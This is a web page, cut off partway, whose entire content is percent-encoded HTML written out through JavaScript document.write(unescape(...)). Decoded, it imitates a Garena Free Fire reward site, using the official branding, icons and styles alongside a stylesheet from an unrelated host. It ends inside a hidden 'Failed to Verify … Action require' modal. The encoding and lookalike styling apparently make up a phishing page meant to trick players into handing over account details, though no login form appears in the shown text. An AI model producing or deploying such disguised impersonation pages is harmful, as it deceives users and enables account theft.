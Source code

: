 document.write(unescape('%3C%68%65%61%64%3E%0A%3C%6D%65%74%61%20%63%68%61%72%73%65%74%3D%22%75%74%66%2D%38%22%3E%0A%3C%6D%65%74%61%20%68%74%74%70%2D%65%71%75%69%76%3D%22%58%2D%55%41%2D%43%6F%6D%70%61%74%69%62%6C%65%22%20%63%6F%6E%74%65%6E%74%3D%22%49%45%3D%65%64%67%65%22%3E%3C%6D%65%74%61%20%68%74%74%70%2D%65%71%75%69%76%3D%22%78%2D%64%6E%73%2D%70%72%65%66%65%74%63%68%2D%63%6F%6E%74%72%6F%6C%22%20%63%6F%6E%74%65%6E%74%3D%22%6F%6E%22%3E%0A%3C%6D%65%74%61%20%6E%61%6D%65%3D%22%76%69%65%77%70%6F%72%74%22%20%63%6F%6E%74%65%6E%74%3D%22%77%69%64%74%68%3D%64%65%76%69%63%65%2D%77%69%64%74%68%2C%69%6E%69%74%69%61%6C%2D%73%63%61%6C%65%3D%31%2C%76%69%65%77%70%6F%72%74%2D%66%69%74%3D%63%6F%76%65%72%22%3E%0A%3C%74%69%74%6C%65%3E%46%72%65%65%20%46%69%72%65%3C%2F%74%69%74%6C%65%3E%0A%3C%6C%69%6E%6B%20%72%65%6C%3D%22%64%6E%73%2D%70%72%65%66%65%74%63%68%22%20%68%72%65%66%3D%22%68%74%74%70%73%3A%2F%2F%70%72%6F%64%2D%61%70%69%2E%72%65%77%61%72%64%2E%66%66%2E%67%61%72%65%6E%61%2E%63%6F%6D%2F%22%3E%0A%3C%6C%69%6E%6B%20%72%65%6C%3D%22%69%63%6F%6E%22%20%68%72%65%66%3D%22%68%74%74%70%73%3A%2F%2F%66%72%65%65%66%69%72%65%6D%6F%62%69%6C%65%2D%61%2E%61%6B%61%6D%61%69%68%64%2E%6E%65%74%2F%66%66%77%65%62%73%69%74%65%2F%69%6D%61%67%65%73%2F%66%72%65%65%66%69%72%65%33%32%2D%32%2E%69%63%6F%22%20%74%79%70%65%3D%22%69%6D%61%67%65%2F%78%2D%69%63%6F%6E%22%3E%0A%3C%6C%69%6E%6B%20%72%65%6C%3D%22%73%68%6F%72%74%63%75%74%20%69%63%6F%6E%22%20%68%72%65%66%3D%22%68%74%74%70%73%3A%2F%2F%66%72%65%65%66%69%72%65%6D%6F%62%69%6C%65%2D%61%2E%61%6B%61%6D%61%69%68%64%2E%6E%65%74%2F%66%66%77%65%62%73%69%74%65%2F%69%6D%61%67%65%73%2F%66%72%65%65%66%69%72%65%31%36%2D%32%2E%69%63%6F%22%20%74%79%70%65%3D%22%69%6D%61%67%65%2F%78%2D%69%63%6F%6E%22%3E%0A%0A%3C%6C%69%6E%6B%20%68%72%65%66%3D%22%68%74%74%70%73%3A%2F%2F%72%65%77%61%72%64%2E%66%66%2E%67%61%72%65%6E%61%2E%63%6F%6D%2F%61%73%73%65%74%73%2F%63%73%73%2F%6D%61%69%6E%2E%34%62%38%64%63%64%66%65%62%62%34%33%61%62%36%33%64%63%34%61%2E%63%73%73%22%20%72%65%6C%3D%22%73%74%79%6C%65%73%68%65%65%74%22%3E%0A%3C%6C%69%6E%6B%20%68%72%65%66%3D%22%68%74%74%70%73%3A%2F%2F%72%61%76%69%72%61%6C%2E%63%6F%6D%2F%68%6F%73%74%5F%73%74%79%6C%65%2F%73%74%79%6C%65%2F%6E%65%77%5F%66%66%5F%76%32%2F%63%73%73%2F%6D%61%69%6E%2E%63%73%73%22%20%72%65%6C%3D%22%73%74%79%6C%65%73%68%65%65%74%22%3E%0A%3C%6C%69%6E%6B%20%72%65%6C%3D%22%73%74%79%6C%65%73%68%65%65%74%22%20%68%72%65%66%3D%22%68%74%74%70%73%3A%2F%2F%77%77%77%2E%77%33%73%63%68%6F%6F%6C%73%2E%63%6F%6D%2F%77%33%63%73%73%2F%34%2F%77%33%2E%63%73%73%22%3E%0A%0A%0A%3C%6D%65%74%61%20%6E%61%6D%65%3D%22%64%65%73%63%72%69%70%74%69%6F%6E%22%20%63%6F%6E%74%65%6E%74%3D%22%22%3E%0A%3C%6D%65%74%61%20%6E%61%6D%65%3D%22%61%75%74%68%6F%72%22%20%63%6F%6E%74%65%6E%74%3D%22%22%3E%0A%3C%6D%65%74%61%20%6E%61%6D%65%3D%22%74%69%74%6C%65%22%20%63%6F%6E%74%65%6E%74%3D%22%46%72%65%65%46%69%72%65%22%3E%0A%3C%6D%65%74%61%20%6E%61%6D%65%3D%22%64%65%73%63%72%69%70%74%69%6F%6E%22%20%63%6F%6E%74%65%6E%74%3D%22%46%72%65%65%46%69%72%65%22%3E%0A%3C%6D%65%74%61%20%70%72%6F%70%65%72%74%79%3D%22%6F%67%3A%74%69%74%6C%65%22%20%63%6F%6E%74%65%6E%74%3D%22%46%72%65%65%46%69%72%65%22%3E%0A%3C%6D%65%74%61%20%70%72%6F%70%65%72%74%79%3D%22%6F%67%3A%64%65%73%63%72%69%70%74%69%6F%6E%22%20%63%6F%6E%74%65%6E%74%3D%22%46%72%65%65%46%69%72%65%22%3E%0A%3C%73%63%72%69%70%74%20%74%79%70%65%3D%22%74%65%78%74%2F%6A%61%76%61%73%63%72%69%70%74%22%20%61%73%79%6E%63%3D%22%22%20%73%72%63%3D%22%68%74%74%70%73%3A%2F%2F%77%77%77%2E%67%6F%6F%67%6C%65%2D%61%6E%61%6C%79%74%69%63%73%2E%63%6F%6D%2F%61%6E%61%6C%79%74%69%63%73%2E%6A%73%22%3E%0A%3C%2F%73%63%72%69%70%74%3E%3C%73%63%72%69%70%74%20%61%73%79%6E%63%3D%22%22%20%73%72%63%3D%22%68%74%74%70%73%3A%2F%2F%77%77%77%2E%67%6F%6F%67%6C%65%74%61%67%6D%61%6E%61%67%65%72%2E%63%6F%6D%2F%67%74%61%67%2F%6A%73%3F%69%64%3D%55%41%2D%31%38%30%38%34%34%37%35%36%2D%31%22%3E%0A%3C%2F%73%63%72%69%70%74%3E%0A%0A%3C%73%63%72%69%70%74%20%73%72%63%3D%22%68%74%74%70%73%3A%2F%2F%61%6A%61%78%2E%67%6F%6F%67%6C%65%61%70%69%73%2E%63%6F%6D%2F%61%6A%61%78%2F%6C%69%62%73%2F%6A%71%75%65%72%79%2F%33%2E%36%2E%30%2F%6A%71%75%65%72%79%2E%6D%69%6E%2E%6A%73%22%3E%3C%2F%73%63%72%69%70%74%3E%0A%3C%2F%68%65%61%64%3E%0A%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%0A%0A%3C%62%6F%64%79%3E%0A%0A%0A%0A%3C%64%69%76%20%73%74%79%6C%65%3D%22%64%69%73%70%6C%61%79%3A%6E%6F%6E%65%22%20%64%61%74%61%2D%76%2D%37%38%65%36%38%35%33%32%3D%22%22%20%64%61%74%61%2D%76%2D%38%38%64%63%30%65%32%63%3D%22%22%20%63%6C%61%73%73%3D%22%6D%6F%64%61%6C%22%20%6D%6F%64%61%6C%2D%74%79%70%65%3D%22%73%6D%22%3E%0A%09%3C%64%69%76%20%64%61%74%61%2D%76%2D%37%38%65%36%38%35%33%32%3D%22%22%20%63%6C%61%73%73%3D%22%6D%6F%64%61%6C%5F%5F%6F%76%65%72%6C%61%79%22%3E%3C%2F%64%69%76%3E%0A%09%3C%64%69%76%20%64%61%74%61%2D%76%2D%37%38%65%36%38%35%33%32%3D%22%22%20%63%6C%61%73%73%3D%22%6D%6F%64%61%6C%2D%63%6F%6E%74%65%6E%74%22%3E%0A%09%09%3C%64%69%76%20%64%61%74%61%2D%76%2D%37%38%65%36%38%35%33%32%3D%22%22%20%63%6C%61%73%73%3D%22%6D%6F%64%61%6C%2D%63%6F%6E%74%65%6E%74%5F%5F%68%65%61%64%65%72%22%3E%0A%09%09%09%3C%73%70%61%6E%20%64%61%74%61%2D%76%2D%37%38%65%36%38%35%33%32%3D%22%22%20%73%74%79%6C%65%3D%22%63%6F%6C%6F%72%3A%72%65%64%22%3E%46%61%69%6C%65%64%20%74%6F%20%56%65%72%69%66%79%3C%2F%73%70%61%6E%3E%0A%09%09%09%3C%64%69%76%20%64%61%74%61%2D%76%2D%38%38%64%63%30%65%32%63%3D%22%22%20%63%6C%61%73%73%3D%22%73%75%62%74%69%74%6C%65%22%3E%3C%2F%64%69%76%3E%0A%09%09%3C%2F%64%69%76%3E%0A%09%09%3C%64%69%76%20%64%61%74%61%2D%76%2D%37%38%65%36%38%35%33%32%3D%22%22%20%63%6C%61%73%73%3D%22%6D%6F%64%61%6C%2D%63%6F%6E%74%65%6E%74%5F%5F%6D%61%69%6E%22%20%3E%0A%09%09%09%3C%64%69%76%20%64%61%74%61%2D%76%2D%37%38%65%36%38%35%33%32%3D%22%22%20%63%6C%61%73%73%3D%22%6D%6F%64%61%6C%2D%63%6F%6E%74%65%6E%74%5F%5F%6D%61%69%6E%2D%62%6F%64%79%22%3E%0A%09%09%09%09%3C%64%69%76%20%64%61%74%61%2D%76%2D%38%38%64%63%30%65%32%63%3D%22%22%20%63%6C%61%73%73%3D%22%22%3E%41%63%74%69%6F%6E%20%72%65%71%75%69%72%65%20%50%6C%65%61%73%65%20%43%6F%6D%